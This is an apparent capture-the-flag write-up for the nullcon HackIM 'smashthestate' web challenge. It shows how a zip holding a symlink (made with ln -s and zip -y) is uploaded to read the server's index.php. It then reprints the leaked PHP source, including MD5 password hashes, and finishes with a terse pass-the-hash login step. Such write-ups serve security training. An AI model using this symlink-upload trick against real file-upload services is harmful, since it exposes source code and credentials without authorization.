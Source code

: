 # nullcon HackIM : smashthestate

**Category:** Web
**Points:** 400
**Solves:** 
**Description:**

> This beautiful website for testing zip files contains a replica of a vulnerability found in a well known bug bounty site. 
> 
> Log in with rob:smashthestate then exploit the vulnerability to gain access to the 'admin' account and the flag. 
> 
> Automated tools and bruteforcing will not help you solve this challenge.
> 
> 
> <http://54.152.101.3/>

[index.php](./index.php)
## Write-up

**by d1rt**

Logging into the server with the `rob:smashthestate` combo takes you to a form that promises to allow you to upload and confirm zip file contents, if you upload a zip file containing a directory you'll be given an error from the `cat` command printed on screen.

`cat: /var/www/html/tmp/upload_18vrn198vcn191nv1/test: Is a directory`

Make a local symlink, then store it in a zip file that preserves symlinks

```
$ ln -s ../../index.php flag
$ zip -y flag.zip flag
  adding: flag (stored 0%)
```

Upload this to the server and you'll get the source code of `index.php` dumped to the page

```
<!--?php
$FAKE_DATABASE = array (
    "rob" =--> "60df0ab1a78fd0d95a4cfa4b0854931b", // smashthestate
    "admin" =&gt; "6ec4b9f5cd1d4fd45746f8e592aa321e",
);
$page = $_GET['page'];

switch ($page) {
    case "login":
        echo "trying to log in";
        $user = $_POST['user'];
        $pass = $_POST['pass'];
...snip...
```

There is a section the appears to dump the flag:

```
    case "admin_login_help":
        session_start();
        if(!isset($_SESSION['login_code']) ){
            $_SESSION['login_code'] = bin2hex(openssl_random_pseudo_bytes(18));
            echo "khack has disabled zis function, please click <a href="?page=code_submit">here</a>\n";
        }
        else {
            echo "khack has disabled the function for zis session";
        }
        break;
    case "code_submit":
        session_start();
        $code = $_POST['code'];
        if (isset($code) &amp;&amp; isset($_SESSION['login_code'])) {
            if ($code == "khack" ){
                echo "Flag: ";
                passthru("sudo /bin/cat /var/www/html/flag");
            }
            else {
                echo "Invalid code";
            }
        }
        else {
            echo "<form action="?page=code_submit" method="POST">Please input the login code:<input name="code"><input type="submit" value="submit"></form>";
        }
```

**it is a lie and always dumps an empty flag**

just submit the md5i hash of the admin password, done.


## Other write-ups and resources

* none yet
